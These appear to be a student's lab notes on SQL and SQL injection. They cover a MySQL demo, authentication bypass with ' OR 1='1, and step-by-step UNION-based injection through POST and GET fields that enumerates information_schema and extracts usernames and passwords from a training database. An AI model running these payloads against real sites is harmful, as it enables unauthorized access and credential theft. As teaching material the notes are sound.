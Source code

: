 # SQL Commands
* Select <--
* Union <--
* Show Tables <--
* Show Columns <--
* Where <--
* Like <--
* Use
* Update
* Delete
* Insert into
* Create Database
* Alter Database
* Create Table
* Alter Table
* Drop Table
* Create Index
* Drop Index
### We are only extracting information in this module, so the only important onces that we will use are Union and Select
### At the end o every sql command you have to put a ";"
### 3 Default databases are information_schema, mysql, and performance_schema
## SQL Demo
```
mysql

show databases;

show tables from session; # Shows tables inside of session database

show colums from session.tires; # Shows all the colums that are in the tires table inside of the session database

select name,tireid,size,cost, from session.tires; # This shows the data inside of session.tires

show columns from session.car;

select carid,name,cost,size from session.tires union select carid,color,cost from session.car; # selects multiple things and joins them in the output
```
# Injecting
* SELECT id FROM users WHERE name=‘[tom' OR 1='1’ AND pass=‘tom' OR 1='1’]
  - You are forcing a boolean that will result in true into the user and password variable
### Injecting Demo
```
' OR 1='1
# Once we got in, we opened the developer console (inspect) and found a username variable
# Make sure to click the radio button to see information in RAW format
# We then copied that variable added a "?" to the url because we are passing information and pasted the variable
# After doing this we were shown usernames and passwords in that variable
```
### Demo POST (text box)
1. Identify vulnerable field
2. Identify number of columns
3. Craft the golden statement
4. Craft the query
5. Craft Queries
```
# Identify vulnerable field
Audi' OR 1='1

# Identify Columns
Audi' UNION SELECT 1,2,3,4,5 #

# Create Golden Statement
Audi ' UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns #
[Audi ' UNION SELECT <column>,<column>,<column> FROM database.table #

# Craft Query
Audi ' UNION SELECT studentID,2,username,passwd,5 FROM session.userinfo #
Audi ' UNION SELECT id,2,name,pass,5 FROM session.user #
```
### DEMO GET (search bar)
```
# In the search bar replace & with:
OR 1=1

# Identify vulnerable field (selection 2)
?Selection=3 UNION SELECT 1,2,3

# Identify number of columns (3, displayed in 1,3,2 order)
?Selection=3 UNION SELECT 1,2,3

# Golden Statement order displayed in 1,3,2
?Selection=3 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns

?Selection=3 UNION SELECT id,pass,name FROM session.user

@@version - this gets the version of the database

# Anbotate databases, tables, and columns
Database: session

session
Tables: Tires,car,session_log,user,userinfo

Columns
(Tires): tireid, name, size, cost
(car): carid, name, type, cost, color, year
etc....
```
`delete from comments where ID = 57; 57`






































